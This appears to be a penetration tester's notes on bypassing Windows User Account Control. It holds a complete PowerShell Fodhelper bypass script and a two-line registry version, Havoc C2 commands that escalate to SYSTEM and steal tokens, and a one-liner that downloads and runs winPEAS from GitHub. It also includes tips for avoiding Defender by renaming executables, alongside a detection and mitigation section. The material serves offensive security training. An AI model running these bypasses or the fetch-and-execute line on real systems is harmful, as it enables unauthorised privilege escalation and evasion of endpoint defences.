

# UAC - User Account Control (Privilege Escalation)

# SUMMARY

Adversaries may bypass UAC mechanisms to elevate process privileges on system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation. The impact to the user ranges from denying the operation under high enforcement to allowing the user to perform the action if they are in the local administrators group and click through the prompt or allowing them to enter an administrator password to complete the action.

If the UAC protection level of a computer is set to anything but the highest level, certain Windows programs can elevate privileges or execute some elevated Component Object Model objects without prompting the user through the UAC notification box. An example of this is use of Rundll32 to load a specifically crafted DLL which loads an auto-elevated Component Object Model object and performs a file operation in a protected directory which would typically require elevated access. Malicious software may also be injected into a trusted process to gain elevated privileges without prompting a user.

Many methods have been discovered to bypass UAC. The Github readme page for UACME contains an extensive list of methods that have been discovered and implemented, but may not be a comprehensive list of bypasses. Additional bypass methods are regularly discovered and some used in the wild.

# MITRE


>***TL;DR***:
>User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.
>
>UAC splits the Administrative user’s token into a medium and a high integrity token. When that user tries to run something as an administrator, a prompt is shown which they must accept, which then the high integrity token is then applied to that process or thread.
>
>A ***UAC bypass*** is going from the Administrative user’s `medium` integrity token to `high` integrity token without having to interact with the prompt.


# Process and integrity levels

screenshot admin user medium integrity

> ***IMPORTANT***: `UAC Bypasses` only work for users that are in the administrator group on the local machine.



## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.


Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

 


Check if UAC is enabled (1 = enabled, 0 is disabled)

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
```

And to check which level it is :

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
```
| Value | Description                                  |
| ----- | -------------------------------------------- |
| 0     | No Prompt                                    |
| 1     | Prompt for credential on the secure desktop  |
| 2     | Prompt for CONSENT on the secure desktop     |
| 3     | Prompt for Credentials on the normal desktop |
| 4     | Prompt for CONSENT on the normal desktop     |
| 5     | Prompt for CONSENT for non-windows binaries  |


https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

---

UAC Bypass (admin user -> high integrity) -> PrivsFU -> NT AUTH

---

Example using a vulnerable service running as administrator but not in highest privileges

User student_adm (integrity medium)

```
import-module .\FodhelperBypass.ps1
PS C:\Temp>  FodhelperBypass -program "cmd.exe"
```
---

# FODHELPER UAC BYPASS
# Fodhelper UAC Bypass Explanation

The **Fodhelper UAC bypass** is a technique used to escalate privileges on Windows systems by exploiting the `fodhelper.exe` executable, a trusted Microsoft binary. This method allows attackers or testers to bypass **User Account Control (UAC)** prompts, enabling the execution of commands with elevated (high-integrity) privileges without user interaction. Below is a detailed explanation of how it works, its requirements, and mitigation strategies, formatted in Markdown.

## Table of Contents
- [UAC - User Account Control (Privilege Escalation)](#uac---user-account-control-privilege-escalation)
- [SUMMARY](#summary)
- [MITRE](#mitre)
- [Process and integrity levels](#process-and-integrity-levels)
  - [How UAC Works](#how-uac-works)
  - [User Account Control (UAC) has four levels of notification settings:](#user-account-control-uac-has-four-levels-of-notification-settings)
- [FODHELPER UAC BYPASS](#fodhelper-uac-bypass)
- [Fodhelper UAC Bypass Explanation](#fodhelper-uac-bypass-explanation)
  - [Table of Contents](#table-of-contents)
  - [What is Fodhelper?](#what-is-fodhelper)
  - [What is UAC?](#what-is-uac)
  - [How the Fodhelper UAC Bypass Works](#how-the-fodhelper-uac-bypass-works)
  - [Requirements for the Bypass](#requirements-for-the-bypass)
  - [Step-by-Step Exploitation](#step-by-step-exploitation)
  - [Example Code](#example-code)
  - [Detection and Mitigation](#detection-and-mitigation)
    - [Detection](#detection)
    - [Mitigation](#mitigation)
  - [Limitations and Risks](#limitations-and-risks)
  - [References](#references)

## What is Fodhelper?

`Fodhelper.exe` is a legitimate Windows executable located in `C:\Windows\System32\fodhelper.exe`. Introduced in Windows 10, it is used to manage optional features, such as region-specific keyboard settings or language changes, accessible via the "Manage Optional Features" option in Windows Settings. Key characteristics include:

- **Signed by Microsoft**: Ensures authenticity and trust.
- **Auto-elevate Privilege**: Runs with a **high-integrity level** due to its `autoElevate` flag set to `true` in its manifest, meaning it can execute with elevated privileges without triggering a UAC prompt under most UAC settings.[](https://foldsab.github.io/posts/UAC_bypass_using_fodhelper/)

## What is UAC?

**User Account Control (UAC)** is a Windows security feature that prevents unauthorized changes to the operating system by requiring user approval for actions needing administrative privileges. When a process requests elevation, UAC displays a prompt asking for consent or credentials. The fodhelper bypass exploits a trusted binary to avoid this prompt.

## How the Fodhelper UAC Bypass Works

The bypass leverages the way `fodhelper.exe` interacts with the Windows Registry, specifically the `HKEY_CURRENT_USER (HKCU)` hive, which is writable by the current user without administrative privileges. Here's the core mechanism:

1. **Registry Key Manipulation**: 
   - When `fodhelper.exe` runs, it queries the registry key `HKCU\Software\Classes\ms-settings\Shell\Open\command` to check for a command to execute.
   - This key does not exist by default, and the current user has permission to create and modify it.
   - An attacker can create this key and insert a custom command (e.g., launching `cmd.exe` or a malicious script).

2. **Auto-elevation**:
   - Since `fodhelper.exe` is a trusted binary with the `autoElevate` flag, it runs with high integrity automatically.
   - When it reads the manipulated registry key, it executes the attacker's command in a high-integrity context, bypassing the UAC prompt.

3. **Execution Flow Hijacking**:
   - The technique hijacks the normal execution flow of `fodhelper.exe` by redirecting it to execute a user-specified command, inheriting the elevated privileges.[](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies)

This method was first documented in 2017 and has been used by malware like Trickbot and in penetration testing scenarios.[](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)[](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)

## Requirements for the Bypass

- **Operating System**: Windows 10 (build 1709 or higher; some sources indicate earlier builds like 10240 are also vulnerable).[](https://shuciran.github.io/posts/%28UAC%29-Bypass-fodhelper.exe/)[](https://rootm0s.github.io/fodhelper-uac-bypass/)
- **User Privileges**: The user must be part of the **Administrators group**. The bypass does not work for standard users.[](https://www.fortinet.com/blog/threat-research/offense-and-defense-a-tale-of-two-sides-bypass-uac)
- **UAC Settings**: The bypass works with most UAC settings except when UAC is set to "Always Notify" (highest level), where a prompt is still required.[](https://www.exploit-db.com/exploits/42142)
- **Registry Access**: The attacker needs write access to the `HKCU` hive, which is typically available to any logged-in user.

## Step-by-Step Exploitation

1. **Create Registry Structure**:
   - Create the registry key: `HKCU\Software\Classes\ms-settings\Shell\Open\command`.
   - Add a string value named `(Default)` with the desired command (e.g., `cmd.exe /c powershell.exe`).
   - Add an empty string value named `DelegateExecute` to ensure `fodhelper.exe` executes the command in the `(Default)` value.[](https://9emin1.github.io/progress/work/2021/07/25/fodhelper.html)

2. **Execute Fodhelper**:
   - Run `fodhelper.exe` (e.g., via `C:\Windows\System32\fodhelper.exe`).
   - The executable reads the manipulated registry key and executes the specified command with high integrity.

3. **Cleanup (Optional)**:
   - Delete or restore the registry key to avoid detection or conflicts (e.g., `Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force`).[](https://cheats.philkeeble.com/windows/uac-bypasses)

## Example Code

Below is a PowerShell script to perform the fodhelper UAC bypass, based on publicly available proofs of concept. **Warning**: Do not run this on production systems, as it modifies the registry and can trigger antivirus detection.[](https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1)

```powershell
# Fodhelper UAC Bypass Script
function FodhelperBypass {
    param (
        [String]$program = "cmd.exe /c powershell.exe" # Default command
    )

    # Create registry structure
    New-Item -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(Default)" -Value $program -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -PropertyType String -Force

    # Execute fodhelper.exe
    Start-Process -FilePath "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

    # Cleanup (wait and remove registry keys)
    Start-Sleep -Seconds 3
    Remove-Item -Path "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}

# Example usage
FodhelperBypass -program "cmd.exe /c start powershell.exe"
```

A simpler two-line command-line version, as shared on X, is:

```cmd
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command /ve /d "cmd.exe" /f
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
```

## Detection and Mitigation

### Detection
- **Monitor Registry Changes**:
  - Look for creation or modification of `HKCU\Software\Classes\ms-settings\Shell\Open\command` using tools like Sysmon or EDR solutions.[](https://research.splunk.com/endpoint/909f8fd8-7ac8-11eb-a1f3-acde48001122/)
- **Process Monitoring**:
  - Detect `fodhelper.exe` spawning unexpected child processes (e.g., `cmd.exe`, `powershell.exe`) via EDR telemetry.[](https://help.fortinet.com/fsiem/Public_Resource_Access/7_1_1/rules/PH_RULE_Bypass_UAC_via_Fodhelper_exe.htm)
- **Windows Defender Alerts**:
  - Windows Defender may flag this activity, though renaming executables (e.g., copying `cmd.exe` to a different name) can evade detection.[](https://foldsab.github.io/posts/UAC_bypass_using_fodhelper/)
- **Token Attributes**:
  - Check for processes with `LUA://HdAutoAp` or `LUA://DecHdAutoAp` attributes, indicating auto-elevated applications or their descendants.[](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies)

### Mitigation
- **Set UAC to "Always Notify"**:
  - Configure UAC to the highest level to force prompts for all elevation requests, though this may impact user experience.[](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)
- **Endpoint Security**:
  - Use EDR solutions with custom rules to detect registry manipulation or suspicious `fodhelper.exe` activity.[](https://research.splunk.com/endpoint/909f8fd8-7ac8-11eb-a1f3-acde48001122/)
- **Least Privilege**:
  - Avoid running as an Administrator group member; use standard user accounts for daily tasks.[](https://www.fortinet.com/blog/threat-research/offense-and-defense-a-tale-of-two-sides-bypass-uac)
- **Patch and Update**:
  - While Microsoft has not fully patched this bypass (as of 2025), keeping systems updated reduces the attack surface.[](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)
- **Registry Hardening**:
  - Restrict write access to `HKCU\Software\Classes` for non-admin users, though this may break legitimate functionality.

## Limitations and Risks

- **Limited to Administrators**: Only works for users in the Administrators group, not standard users.[](https://www.fortinet.com/blog/threat-research/offense-and-defense-a-tale-of-two-sides-bypass-uac)
- **Antivirus Detection**: Windows Defender and other AV solutions may detect and block the bypass, especially if not obfuscated. Renaming executables can mitigate this.[](https://9emin1.github.io/progress/work/2021/07/25/fodhelper.html)[](https://foldsab.github.io/posts/UAC_bypass_using_fodhelper/)
- **System Impact**: Modifying the registry can cause unintended behavior if not cleaned up properly.[](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)
- **Not a Full Privilege Escalation**: This is a UAC bypass, not a true local privilege escalation (e.g., from standard user to admin).[](https://www.fortinet.com/blog/threat-research/offense-and-defense-a-tale-of-two-sides-bypass-uac)
- **Ethical Use**: This technique should only be used in authorized penetration testing or research environments. Unauthorized use is illegal and unethical.

## References
- TCM Security: Bypassing Defender with Fodhelper[](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)
- Pentestlab: UAC Bypass – Fodhelper[](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)
- Medium: By Pass UAC Using Fodhelper[](https://nadimsaliby.medium.com/by-pass-uac-using-fodhelper-e4a94e04d5f0)
- Elastic Security Labs: Exploring Windows UAC Bypasses[](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies)
- Splunk: Detection of Fodhelper UAC Bypass[](https://research.splunk.com/endpoint/909f8fd8-7ac8-11eb-a1f3-acde48001122/)
- GitHub: FodhelperBypass.ps1 by winscripting[](https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1)
- X Post by @xxByte (2021)

---

This explanation provides a comprehensive overview of the fodhelper UAC bypass, including its mechanics, implementation, and countermeasures. Always use such techniques responsibly and within legal boundaries.


----


Now user in in High Interity - running TokenPlayer (whicj enables sedebugprivilege) will now escalate to system!


In havoc, running admin user in high integrity, you still need to set sedebugprivilege in order to use `STEAL TOKEN`:
```
04/04/2025 14:05:18 [Threatadmin] Demon » token privs-get SeDebugPrivilege
[*] [F6CB1E4A] Tasked demon to enable a privilege: SeDebugPrivilege
[+] Send Task to Agent [41 bytes]
[+] The privilege SeDebugPrivilege was successfully enabled

04/04/2025 14:05:31 [Threatadmin] Demon » token steal 4536
[*] [20765EC8] Tasked demon to steal a process token
[+] Send Task to Agent [24 bytes]
[+] Successful stole and impersonated token from 4536 User:[NT AUTHORITY\SYSTEM] TokenID:[0]
```